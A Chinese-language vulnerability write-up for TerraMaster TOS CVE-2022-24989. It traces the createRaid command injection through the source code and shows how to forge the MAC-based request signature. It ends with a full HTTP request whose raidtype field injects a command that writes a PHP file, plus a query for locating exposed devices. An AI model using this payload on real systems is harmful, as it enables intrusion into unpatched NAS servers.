 # TerraMaster TOS createRaid 远程命令执行漏洞 CVE-2022-24989

# TerraMaster TOS createRaid 远程命令执行漏洞 CVE-2022-24989

## 漏洞描述

TerraMaster TOS mobile.class.php文件的createRaid方法存在远程命令执行漏洞 ，攻击者配合 CVE-2022-24990漏洞可以获取服务器权限

## 漏洞影响

```
TerraMaster TOS < 4.2.31
```

## 网络测绘

```
"TerraMaster" && header="TOS"
```

## 漏洞复现

登录页面

![image-20220524153857771](/images/202205241538897.png)

查看 `mobile.class.php文件`中的 `createRaid方法`, 其中参数`raidtype和参数diskstring`均为可控参数

![1](/images/202205241540547.png)

注意这一行代码并跟踪 `volume_make_from_disks` 方法

```
$ret = $vol->volume_make_from_disks($this->in['raidtype'], $filesystem, $disks, $volume_size);
```

![2](/images/202205241540535.png)

可以看到方法调用中的 `$levek` 参数是可控参数，传入 `_backexec`方法中，可导致命令拼接执行恶意命令

![3](/images/202205241540532.png)

回到 `mobile.class.php` 文件开头的定义

```
static $notCheck = [
        "webNasIPS", "getDiskList", "createRaid", "getInstallStat", "getIsConfigAdmin", "setAdminConfig", "isConnected",'createid',
        'user_create','user_bond','user_release','login', 'logout', 'checkCode', "wapNasIPS"
    ];
    //不验证头信息是否匹配...
    static $notHeader = ["fileDownload", "videoPlay", "imagesThumb", "imagesView", "fileUpload", "tempClear", "wapNasIPS", "webNasIPS", "isConnected"];
    private static $U = null;
    private static $filter = array(".", "..", ".svn", "lost+found", "aquota.group", "aquota.user");
```

发现 `$notHeader` 数组中并不存在方法名 `createRaid`，看一下 api.php 中的定义

![4](/images/202205241540534.png)

```
$instance = new $class();
if (!in_array($function, $class::$notHeader)) {
    #防止请求重放验证...
    if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
        $instance->output("Illegal request, timeout!", 0);
    }
}
$instance->$function();
```

由于实例化的过程中存在验证请求头，所以需要通过if判断才能调用该方法进行命令执行

```
if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
        $instance->output("Illegal request, timeout!", 0);
    }
```

看到这里主要是两个参数值得关注: `HTTP_TIMESTAMP` 和 `HTTP_SIGNATURE`

跟踪方法 tos_encrypt_str 在源码中并没有找到，我们查看下php扩展函数列表

![image-20220524154207860](/images/202205241542899.png)

![6](/images/202205241540546.png)

下载这个 so文件使用 IDA打开 搜索字符串 `tos_encrypt_str`

![7](/images/202205241540062.png)

![8](/images/202205241540650.png)

跟进方法 `get_mac_addr`

![9](/images/202205241540673.png)

这里可以看到获取 `eth0网卡`的 `mac`，再经过 `php_sprintf`， 跟进下 `&ubk_38fa`

![10](/images/202205241540686.png)

实际上就是获取了 mac的最后3个字节, 例如mac地址为: 11.22.33.44.55.66, 经过后获取为 445566

![11](/images/202205241540675.png)

回到函数执行的地方，我们就可以知道，实际上这个函数等同于

```
# mac addr 11:22:33:44:55:66
tos_encrypt_str(xxxxxx) = md5(445566xxxxxx)
```

看看之前的判断代码

```
$instance = new $class();
if (!in_array($function, $class::$notHeader)) {
    #防止请求重放验证...
    if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
        $instance->output("Illegal request, timeout!", 0);
    }
}
$instance->$function();
```

TIMESTAMP参数为当前时间戳，这里的判断逻辑就很清楚了

```
md5(mac地址后三字节 + 当前时间戳) = $_SERVER['HTTP_SIGNATURE']
```

通过之前提到的漏洞 `CVE-2022-24990` 泄漏的 PWD和mac地址，我们就可以利用这个命令执行漏洞了, 通过刚刚的逻辑写POC获取信息

![12](/images/202205241540649.png)

在发送请求包写入 php恶意文件

```
POST /module/api.php?mobile/createRaid HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Authorization: $1$hq6UR8XW$ti.QT5f9wQQg1PcJFWdub/
Cache-Control: max-age=0
Content-Length: 82
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=f1d33267c0ee0c34e9a348402205e272; tos_visit_time=1647670158
Signature: e856010781d0efd904d57ac40517859c
Timestamp: 1647678138
Upgrade-Insecure-Requests: 1
User-Agent: TNAS

raidtype=%3Becho+%22%3C%3Fphp+phpinfo%28%29%3B%3F%3E%22%3Evuln.php&diskstring=XXXX
```

![13](/images/202205241540638.png)

访问写入的文件

![](/images/202205241543426.png)

